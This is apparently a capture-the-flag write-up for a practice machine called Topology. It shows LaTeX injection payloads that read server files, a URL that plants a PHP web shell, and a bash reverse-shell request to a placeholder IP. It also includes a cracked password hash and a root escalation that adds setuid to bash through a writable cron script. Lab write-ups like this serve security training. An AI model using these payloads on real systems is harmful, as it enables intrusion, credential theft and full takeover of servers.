


# Topology

## Enumeration:

Start off with an nmap scan:

```vim
Nmap scan report for 10.10.11.217
Host is up (0.20s latency).
Not shown: 62063 closed tcp ports (conn-refused), 3470 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looking at the website, we see a link to `http://latex.topology.htb` implying the existence of `topology.htb` domain and possibly more subdomains.

Subdomain Enum gets me access to a couple domains:
1. `dev.topology.htb`: This subdomain requires you to log in, and its an Apache Server so we have to see if we can maybe try and read the `.htaccess`
2. `stats.topology.htb`: This just has a `files` subdirectory and 2 PNG's on it which didn't seem too relevant to me 

Going back to `latex.topology.htb`, the web root is actually having a log file, some tex files and some PNG examples of LaTeX equations along with `equation.php`. This subdomain revolves around a LaTeX interpreter (which apparently supports only 1-liners) so we probably have to try and see if we can perform any kind of RCE.

The log files mentions the pdfTex running, so I can only assume my LaTeX code is going to be processed with pdfTex and then can be saved as a PNG. Due to this, it allows us to split the foothold into 2 routes. I will mention how to do both, the intended and the unintended routes.

## Exploit:

### Intended Route:

The intended route requires you to look into the pdfTex, which is an extention of Tex (Typesetting program to make documents). Reading the [pdfTex Documentation](https://texdoc.org/serve/pdftex-a.pdf/0), we can see a number of statements which can perform various functionalities related to PDFs. the one we will look at in particular is the `\pdffiledump` and `\pdfunescapehex`

`\pdffiledump` will dump contents of a file according to a particular length from a particular offset except it is output in hexadecimal, which is why we have to use `\pdfunescapehex` to convert the output from hexadecimal to ASCII.

So our exploit will look like this:
```latex
\pdfunescapehex {\pdffiledump length 2000 {/etc/hostname}}
```

Because of the nature of the web application, fuzzing becomes very difficult so we have to try and manually see if we can get access to some interesting files. I decided to look into the `/var/www/dev/` subdirectory to see if there was anything I can read there and I tried for `.htaccess` and saw the following:



This implies the existence of `/var/www/dev/.htpasswd`. So we can try the following to see what we have there:

```latex
\pdfunescapehex {\pdffiledump length 2000 {/var/www/dev/.htpasswd}}
```



### Unintended Route:

This Route revolves around writing to a file using LaTeX code. Unfortunately a lot of options like `\immediate`, `\input`, `\write` are blacklisted and we have to look for other alternatives in order to write to it. The webapp states that it only supports 1-liners, however what if there was a way to force a 1-liner into the query?

Because the LaTeX code gets processed from the GET parameter, something like `%0A` which is just a URL-encoded linebreak will function like a normal linebreak allowing you the ability to effectively write multi-line LaTeX code. This opens up the option to a package called `filecontents`.

Looking at the [Documentation](https://latexref.xyz/filecontents.html) we find out that this package allows us to write external files. However the issue (not mentioned in the shown docs) is that the `\begin` statement requires a linebreak to function properly. Fortunately the URL-encoded linebreak seems to do the job. Files created will be stored in the `/tempfiles` directory. We can execute the exploit with the following URL:

```
http://latex.topology.htb/equation.php?eqn=%5cbegin%7bfilecontents*%7d%5boverwrite%5d%7blmao.php%7d%0d%0a%3c%3fphp%20system(%24_REQUEST%5b'cmd'%5d)%3b%20%3f%3e%0d%0a%5cend%7bfilecontents*%7d&submit=
```

The above URL will make a file called `lmao.php` and put `<?php system($_REQUEST['cmd']); ?>`  allowing you to perform RCE and execute bash commands with `http://latex.topology.htb/tempfiles/lmao.php?cmd=id`  where any value put in `cmd` will get executed.

```http
POST /tempfiles/lmao.php HTTP/1.1
Host: latex.topology.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 58

cmd=bash+-c+'bash+-i+>%26+/dev/tcp/<IP>/<PORT>+0>%261'
```

Replace the IP and Port and the above HTTP request should give you a reverse shell.

Once you get onto the machine as `www-data`, you can go to the `/var/www/dev` directory and try to see if there is anything there:

```vim
bash-5.0$ cd /var/www/dev/      
cd /var/www/dev/
bash-5.0$ ls -la
ls -la
total 40
drwxr-xr-x 2 www-data www-data 4096 Jan 17 12:26 .
drwxr-xr-x 6 root     root     4096 May 19 13:04 ..
-rw-r--r-- 1 www-data www-data  100 Jan 17 12:26 .htaccess
-rw-r--r-- 1 www-data www-data   47 Jan 17 12:26 .htpasswd
-rw-r--r-- 1 www-data www-data 1068 Jan 17 12:26 LICENSE
-rw-r--r-- 1 www-data www-data 7101 Jan 17 12:26 index.html
-rw-r--r-- 1 www-data www-data 1715 Jan 17 12:26 script.js
-rw-r--r-- 1 www-data www-data 5730 Jan 17 12:26 styles.css
bash-5.0$ cat .htpasswd
cat .htpasswd
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

We can see that .htpasswd has a hash (Specifically a Apache md5 hash). We can copy the hash and try to crack it with `john`:

```vim
┌──(kali㉿kali)-[~/topology]
└─$ echo '$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0' > hash
                                                                                                                    
┌──(kali㉿kali)-[~/topology]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (?)     
1g 0:00:00:06 DONE (2023-06-12 16:22) 0.1451g/s 144515p/s 144515c/s 144515C/s calebd1..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

It gets cracked as `calculus20`. We can now try and ssh into the machine as `vdaisley` and their password.

User Flag is in `/home/vdaisley/user.txt`

## Privilege Escalation:

Running `pspy64`, we can see the following cronjob:

```vim
2023/06/12 08:38:01 CMD: UID=0     PID=4725   | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
2023/06/12 08:38:01 CMD: UID=0     PID=4727   | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023/06/12 08:38:01 CMD: UID=0     PID=4728   | gnuplot /opt/gnuplot/loadplot.plt 
2023/06/12 08:38:01 CMD: UID=0     PID=4729   | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/06/12 08:38:01 CMD: UID=0     PID=4730   | /bin/sh /opt/gnuplot/getdata.sh 
```

Looking at `/opt/gnuplot` we can see the following:

```vim
vdaisley@topology:~$ cd /opt
vdaisley@topology:/opt$ ls -la
total 12
drwxr-xr-x  3 root root 4096 May 19 13:04 .
drwxr-xr-x 18 root root 4096 May 19 13:04 ..
drwx-wx-wx  2 root root 4096 Jun 12 08:33 gnuplot
```

`/opt/gnuplot` is world writable and we have the root user executing `getdata.sh` as a cronjob in that subdirectory. So we can edit the `getdata.sh` file using vim and adding a command like `chmod +s /bin/bash` and using vim's `:wq!` to overwrite permissions and add our command into the shell script.

After waiting till the cronjob executes, you can use `bash -p` to get a root shell.

Root Flag can be found in `/root/root.txt`
